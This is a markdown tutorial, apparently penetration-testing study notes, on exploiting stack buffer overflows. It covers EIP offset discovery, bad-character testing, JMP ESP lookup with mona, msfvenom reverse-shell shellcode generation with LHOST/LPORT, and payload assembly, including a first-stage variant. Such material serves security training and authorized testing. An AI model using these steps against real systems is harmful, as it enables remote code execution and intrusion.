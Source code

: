 # BOF

## Buffer overflow

### Fuzzing

Send increasingly long string to vulnerable field until the application crashes because the EIP registry has been overwritten. The string length will be the size of the payload.

### Find EIP address

```
msf-pattern_create -l <size of payload>
msf-pattern_offset -q <bytes in EIP at crash> -l <size of payload>
```

Generate and send a string to the vulnerable application to replicate the crash. Once the application crashes use the debugger to read the bytes stored in the EIP register and use them to find the  offset of the register from the injection point

### Find writable area offset

It is needed to use a register to store the code to be executed at crash time. To do so we have to find a register that references an area of memory we have reserved for our script (the ‘C’ area). After submitting the following payload:&#x20;

```
payload = 'A' * <offset from msf-pattern_offset> + 
'B' * 4 + 
'C' * (<size of payload> - 4 - <offset from msf-pattern_offset>)
```

Find a register that points to an area written with ‘C’s:

```
offset = 4*(number of 'C' rows between ESI address and the row of 'B's pointed by ESP)
available bytes = number of consecutive 'C's in and after the referenced address 
```

### Check for space

After calculating the starting offset, see how much space you have available by trying to inject several extra lines of ‘D’s that represent your actual payload position:

```
payload = "A" * <offset from msf-pattern> + "B" * 4 + "C" * <offset> + "D" * 1500
```

If the available space is not enough to store the exploit see **Bof with first stage payload**

### Check for bad chars

#### String for tests

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

#### known bad chars:

```
Null char: \x00
Line feed: \x0A
HTTP POST field term: \x0D
```

#### Procedure:

1. Send the badchars string to the target machine.
2. When the program crashes use the debugger to access the memory dump and read at which char the execution stopped.
3. The character next to the last in memory is a bad one, remove it from the badchars string and send it again
4. Repeat steps 1-3 until the application crashes after processing the whole string.

### Redirect execution

```
!mona modules
!mona find -s "<opcode>" -m "<chosen library>.dll"    #for jmp esp is \xff\xe4
#OR to search in all modules
!mona jmp -r esp -m <file>.exe
```

Use Immunity's mona shell to find the position of an exploitable JMP ESP instruction (we want ESP register because it points to the top of the stack). A suitable address must not contain bad chars, and be stored in a library without memory protection systems in place and without bad chars in its base address.

When storing the address check for endianness: if the system is little endian invert the bytes' order.

#### Get opcodes

```
msf-nasm_shell
jmp esp
```

### Assemble payload

#### Generate shellcode

If msfvenom is not able to generate a payload, remove the encoder option (-e) in this way the payload generator will automatically pick the best encoder to work with the given badchars.

```
msfvenom -p <payload> LHOST=<local ip> LPORT=<connect back port> -f py -v shellcode -b "\x00\<escaped bad chars>" EXITFUNC=thread
```

#### Assemble payload

```
shellcode = ("<escaped hex chars generated by msfvenom>")
padding = 'A'*<offset found by msf-pattern_offset>
eip = <EIP address>    #address is in little endian: \x31\x17\x12\xf3 --> \xf3\x12\x17\x31
offset = 'C'*<offset>
nops = '\x90' * <min 10, max (<available space> - len(shellcode))>
payload = padding+eip+offset+nops+shellcode
```

## BoF with first stage payload

If the ESP register is too small to store the whole payload it will store the first stage payload and from there the execution will be redirected to the actual exploit code stored in another register pointing at the top of the stack.

### First stage payload

Once a suitable register is found we have to add our instructions after the data stored. The following instructions will be executed from the ESP register in order to redirect the execution to the exploit

#### payload:

```
msf-nasm-shell
add <reg> <number of bytes>
jmp <reg>
```

The payload is formed by the generated hex strings joined together

### Assemble payload

The procedure for the rest of the exploit is the same as before,  the only difference is that you have to account for the  first stage payload when assembling the exploit

```
nops = "\x90" * <num>
shellcode = ("<shell from msfvenom>")
padding = "\x41" * (<available space>-len(nops)–len(shellcode))
eip = "<4 bytes addr>"
first_stage = "<generated hex payload>"
buffer = nops + shellcode + padding + eip + first_stage
```
